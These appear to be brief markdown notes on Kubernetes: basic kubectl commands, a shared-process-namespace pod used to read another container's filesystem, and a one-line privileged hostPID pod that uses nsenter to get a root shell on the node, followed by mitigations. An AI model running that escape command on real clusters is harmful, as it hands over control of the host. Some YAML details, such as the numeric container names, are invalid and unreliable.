 # lifecycle

```bash
kubectl apply -f foo.yaml

kubectl get services
kubectl get pods --all-namespaces

kubectl delete pod 'foo' --grace-period=0
```

# containers with same pid namespace

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: shared
spec:
  shareProcessNamespace: true
  containers:
  - name: 1
    image: busybox
    command: ["sh"]
    args: ["-c", "foo"]
    env:
    - name: CONTAINER_NAME
      value: 1
  - name: 2
    image: busybox
    env:
    - name: CONTAINER_NAME
      value: 2
```

```bash
# On container 1
ps
# USER		PID		COMMAND
# root		  6		sh -c -- foo

# List container 2 root directory
ls /proc/6/root
```

# root pid ns

```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"securityContext":{"privileged":true}}]}}'
```

- Mitigations:
    - `PodSecurityPolicies`
    - `--allow-privileged=False` on kubelet
